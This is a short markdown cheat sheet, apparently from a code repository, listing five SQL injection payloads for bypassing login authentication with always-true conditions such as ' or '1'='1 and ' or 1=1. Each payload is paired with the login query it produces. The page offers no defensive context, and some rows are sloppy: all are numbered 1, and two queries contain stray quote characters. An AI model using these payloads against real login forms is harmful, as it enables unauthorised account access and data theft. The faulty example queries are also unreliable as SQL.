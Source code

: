 ## Bypass SQL Always True


|NO  |PAYLOAD  | EXAMPLE QUERY |
|--|--|--|
| 1 | ```' or '1'='1``` |```SELECT * FROM user WHERE username = '' or '1'='1' AND password = '' or '1'='1';```|
| 1 | ```' or username!=''``` |```SELECT * FROM user WHERE username = '' or username!='' AND password = '' or password!='';```|
| 1 | ```' or FALSE!=TRUE``` |```SELECT * FROM user WHERE username = '' or FALSE!=TRUE AND password = '' or FALSE!=TRUE;```|
| 1 | ```' or TRUE=TRUE``` |```SELECT * FROM user WHERE username = '' or TRUE=TRUE AND password = '' or TRUE=TRUE";```|
| 1 | ```' or 1=1``` |```SELECT * FROM user WHERE username = '' or 1=1 AND password = '' or 1=1" ;```|
